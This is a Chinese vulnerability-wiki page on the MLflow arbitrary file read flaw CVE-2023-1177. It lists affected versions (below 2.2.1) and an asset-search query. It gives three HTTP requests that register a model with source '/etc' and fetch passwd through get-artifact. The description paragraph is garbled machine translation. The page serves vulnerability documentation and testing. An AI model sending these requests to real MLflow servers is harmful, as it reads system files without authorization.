




# MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 开头机器翻译病句影响受影响部署理解
- 网络测绘app.name未标平台，不能直接当FOFA
- 登录页面一词与未鉴权部署前提关系含糊
- 请求缺Host/HTTP版本，需标明简写或补规范
- 示例创建服务端模型记录会改状态，需记录影响/清理步骤
- 没有明确修复章节/原始公告链接；代码块无语言

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

```
MLflow < 2.2.1
```

## 网络测绘

```
app.name="MLflow"
```

## 漏洞复现

登陆页面




验证POC

```
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```




```
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```




```
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
